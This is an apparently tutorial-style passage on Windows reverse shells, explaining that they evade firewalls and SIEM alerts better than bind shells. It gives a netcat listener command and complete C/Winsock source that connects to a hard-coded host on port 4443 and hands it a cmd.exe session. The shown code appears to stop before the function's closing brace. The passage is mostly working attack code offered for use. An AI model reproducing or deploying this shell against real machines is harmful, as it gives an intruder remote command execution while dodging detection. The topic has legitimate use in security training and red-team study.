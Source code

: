 
#### The reverse shell

The thing here is that some firewalls/siem stuff etc will block you from listening on a random port or will alert the user or something like that, so normally you do not want to use bind shells.

The alternative is a reverse shell: making the _attacker_ machine listen for connections on a port (nc -lvp  4443) and just _sending the shell there_

Here's the code, you'll see that is prettty similar: 
```C
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#include <stdio.h>
#include <windows.h>
#include <winsock2.h>
#include <ws2tcpip.h>

// remember to include the winsock lib to the project 
#pragma comment(lib,"ws2_32")

void doShell(){
    // initialization
    WSADATA wsaData;
    SOCKET s1;
    struct sockaddr_in hax;
    char ip_addr[16];
    STARTUPINFO sui;
    PROCESS_INFORMATION pi;
    char Process[] = "cmd.exe";

    // WSAStartup is needed as well
	WSAStartup(MAKEWORD(2, 2), &wsaData);
    // we'll only have one socket in here as we already know where we'll send the process 
    // WSASocket == socket 
	s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);
    // socket info
	hax.sin_family = AF_INET;
	hax.sin_port = htons(4443);
	hax.sin_addr.s_addr = inet_addr("192.168.0.50");
    // WSAConnect == connect() 
	if(WSAConnect(s1, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL) == SOCKET_ERROR){
		    printf("error %d \n", WSAGetLastError());
			closesocket(s1);
			WSACleanup();
    }
    else{
        printf("connecting \n");
        // sui == processinfo 
        memset(&sui, 0, sizeof(sui));
        sui.cb = sizeof(sui);
        sui.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
        // and we just send to the socket
        sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE) s1;
        // creating a process for cmd.exe, sending to s1 
        CreateProcess(NULL, Process, NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
        // we want to keep it up until the user closes 
        WaitForSingleObject(pi.hProcess, INFINITE);
        // house cleaning
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
        closesocket(s1);
        WSACleanup();
        printf("shell closed \n");
    }
```